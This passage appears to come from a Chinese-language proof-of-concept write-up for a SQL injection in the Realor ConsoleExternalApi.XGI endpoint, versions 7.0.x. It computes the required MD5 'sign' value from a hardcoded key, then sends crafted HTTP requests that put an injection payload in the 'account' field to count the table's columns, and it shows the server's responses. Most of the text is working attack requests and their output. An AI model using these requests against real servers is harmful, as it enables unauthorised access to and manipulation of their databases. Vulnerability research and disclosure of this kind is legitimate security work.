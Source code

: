 ```http
HTTP/1.1 200 OK
Date: Fri, 14 Apr 2023 11:25:41 GMT
Server: Apache
Set-Cookie: PHPSESSID=n0hbfs5jlf6ca759lv5l4nstv1; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 35
Content-Type: text/html

[result]
result=0
Version=7.0.3.1
```

先计算`sign`的值。

```shell
$ keyVal="Realor"
$ initParams="command_createUser__user_admin__pwd_123"
$ echo -n $initParams$keyVal | md5
455bb32c0eb81692d75438a140c166e4
```

然后构造如下 POC 内容，先使用`ORDER BY`语句确认列数，如下结果测试于 7.0.3.1 版本，其列数是 31，但在 7.0.2.1 版本中测试得出列数为 32。

```http
POST /ConsoleExternalApi.XGI?key=inner&initParams=command_createUser__user_admin__pwd_123&sign=455bb32c0eb81692d75438a140c166e4 HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: application/json
Content-Type: application/json
Cookie: PHPSESSID=60ql548qeb56e9tvsjo1mjnnq5; CookieLanguageName=ZH-CN; think_languague=zh-CN; UserAuthtype=0
Accept-Encoding: gzip, deflate
Referer: http:// 192.168.21.89:8081/ConsoleExternalApi.XGI
Content-Length: 53
Connection: close

{"account":"admin' ORDER BY 31-- -", "userPwd":"123"}
```

```http
HTTP/1.1 200 OK
Date: Fri, 14 Apr 2023 11:31:10 GMT
Server: Apache
Content-Length: 51
Connection: close
Content-Type: application/json; charset=utf-8

{"result":0,"msg":"要添加的账户已存在！"}
```
